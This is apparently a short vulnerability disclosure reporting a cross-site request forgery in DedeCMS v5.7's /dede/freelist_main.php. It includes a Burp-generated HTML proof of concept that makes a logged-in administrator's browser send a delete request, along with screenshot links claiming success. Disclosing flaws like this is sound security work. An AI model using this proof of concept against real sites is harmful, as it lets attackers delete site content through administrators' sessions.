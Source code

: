 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/freelist_main.php
![1](https://github.com/777erp/cms/assets/113673221/2f8d841f-7112-4db9-952d-0dbd1d37c676)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/freelist_main.php">
      <input type="hidden" name="dopost" value="del" />
      <input type="hidden" name="aid" value="10" />
      <input type="hidden" name="pageno" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```

![2](https://github.com/777erp/cms/assets/113673221/41817fe4-e4f4-4fdd-88b8-990680092ae4)


Successed

![3](https://github.com/777erp/cms/assets/113673221/4500f9b5-08df-4775-bfa0-3eacc1e28c0a)

